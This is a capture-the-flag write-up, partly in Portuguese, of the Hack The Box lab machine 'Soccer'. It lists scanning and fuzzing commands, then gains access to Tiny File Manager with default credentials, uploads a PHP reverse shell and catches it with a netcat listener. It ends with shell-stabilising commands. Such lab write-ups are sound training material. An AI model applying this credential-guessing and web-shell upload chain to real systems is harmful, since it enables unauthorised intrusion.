 Soccer
========================

## Enumeration

    sudo nmap_enum soccer.htb | tee nmap_output.txt
    
![qownnotes-media-EFydPK](../../../media/qownnotes-media-EFydPK.png)

    sudo nmap -sU -p 53,161,111,137,139,500,2049 -Pn soccer.htb | tee nmap_udp_output.txt
 
![qownnotes-media-moHZYU](../../../media/qownnotes-media-moHZYU.png)

    sudo nmap -p- -Pn -T5 -n soccer.htb | tee nmap_fullportstcp_output.txt
 
 ![qownnotes-media-hsIxUG](../../../media/qownnotes-media-hsIxUG.png)

    sudo nmap -sS --script vuln -n -T5 -Pn soccer.htb -p 22,80,9091 | tee nmap_vulns.txt

![qownnotes-media-VMsHoN](../../../media/qownnotes-media-VMsHoN.png)


    gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -k -t 16 -o "tcp_port_protocol_s_ext_gobuster.txt"

![qownnotes-media-IOqLMK](../../../media/qownnotes-media-IOqLMK.png)

    ffuf -c -ic -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.soccer.htb" -u http://soccer.htb -fs 178
    
 ![qownnotes-media-jcGCIp](../../../media/qownnotes-media-jcGCIp.png)


    gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/common.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_ext_gobuster.txt"
    
![qownnotes-media-urCTvu](../../../media/qownnotes-media-urCTvu.png)

    nikto -host http://soccer.htb -T x 6 | tee nikto_output.txt

![qownnotes-media-aQsSch](../../../media/qownnotes-media-aQsSch.png)


    searchsploit OpenSSH 8.2p1

![qownnotes-media-rvuSkW](../../../media/qownnotes-media-rvuSkW.png)

    httrack http://soccer.htb/
    cat hts-cache/new.txt | cut -f 8

![qownnotes-media-SrwVeB](../../../media/qownnotes-media-SrwVeB.png)

    gobuster dir -u http://soccer.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x "txt,html,php,asp,aspx,jsp" -k -t 16 -o "tcp_port_protocol_gobuster.txt"

![qownnotes-media-NWqyRO](../../../media/qownnotes-media-NWqyRO.png)

![qownnotes-media-ywpCxp](../../../media/qownnotes-media-ywpCxp.png)

## Exploitation

    searchsploit tiny file manager
    
![qownnotes-media-dukuga](../../../media/qownnotes-media-dukuga.png)


    cp /usr/share/exploitdb/exploits/php/webapps/50828.sh exploit.sh
    chmod +x exploit.sh
 
 Depois de alterar de diveresas formas o exploit, notei que a eexploração seria mais fácil na mão mesmo. Sendo assim, entrei no portal com as credenciais:
 
     admin
     admin@123

entrei nas pastas e finalmente achei um caminho que deeixava eu fazer o upload. Depois eu utilizei desta shell aqui para conseguir uma shell reversa:

    /usr/share/webshells/php/php-reverse-shell.php

    cp /usr/share/webshells/php/php-reverse-shell.php webshell.php
    firefox http://soccer.htb/tiny/uploads/webshell.php
    
    nc -nlvp 8082

![qownnotes-media-lAtUto](../../../media/qownnotes-media-lAtUto.png)

## PrivEsc

    python3 -c 'import pty; pty.spawn("/bin/bash")'
    export TERM=xterm
<Ctrl + Z>

    stty raw -echo; fg
    reset

